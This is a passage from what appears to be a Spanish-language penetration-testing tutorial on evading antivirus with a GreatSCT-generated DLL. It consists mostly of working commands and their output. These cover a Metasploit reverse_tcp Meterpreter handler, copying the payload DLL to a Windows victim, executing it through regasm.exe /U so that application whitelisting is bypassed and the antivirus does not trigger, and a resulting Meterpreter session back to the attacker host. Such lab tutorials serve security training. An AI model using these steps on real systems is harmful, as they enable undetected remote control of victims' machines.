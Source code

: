 ```shell
msfconsole -q -r /usr/share/greatsct-output/handlers/payload.rc
```

Info:

```
[*] Processing /usr/share/greatsct-output/handlers/payload.rc for ERB directives.
resource (/usr/share/greatsct-output/handlers/payload.rc)> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
resource (/usr/share/greatsct-output/handlers/payload.rc)> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
resource (/usr/share/greatsct-output/handlers/payload.rc)> set LHOST 192.168.5.205
LHOST => 192.168.5.205
resource (/usr/share/greatsct-output/handlers/payload.rc)> set LPORT 7777
LPORT => 7777
resource (/usr/share/greatsct-output/handlers/payload.rc)> set ExitOnSession false
ExitOnSession => false
resource (/usr/share/greatsct-output/handlers/payload.rc)> exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.5.205:7777
```

Ahora en otra terminal nos copiaremos el `.dll` de la siguiente forma:

```shell
cp /usr/share/greatsct-output/compiled/payload.dll ~/Desktop
```

Ahora tendremos que pasar ese `payload.dll` a la maquina `Windows`, veremos que cuando nos la pasamos no salta el `antivirus`, por lo que ahora tendremos que ejecutar este comando en una consola de `PowerShell` en la maquina `Windows` victima:

```powershell
cd Desktop
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U payload.dll
```

Info:

```
Utilidad de registro de ensamblados de Microsoft .NET Framework versión 4.8.9037.0
para Microsoft .NET Framework versión 4.8.9037.0
Copyright (C) Microsoft Corporation. Todos los derechos reservados.
```

Se nos quedara pensando y si nos vamos a donde tenemos la escucha en `metasploit` veremos lo siguiente:

```
[*] Sending stage (177734 bytes) to 192.168.5.209
[*] Meterpreter session 1 opened (192.168.5.205:7777 -> 192.168.5.209:63326) at 2025-02-07 05:22:22 -0500
```
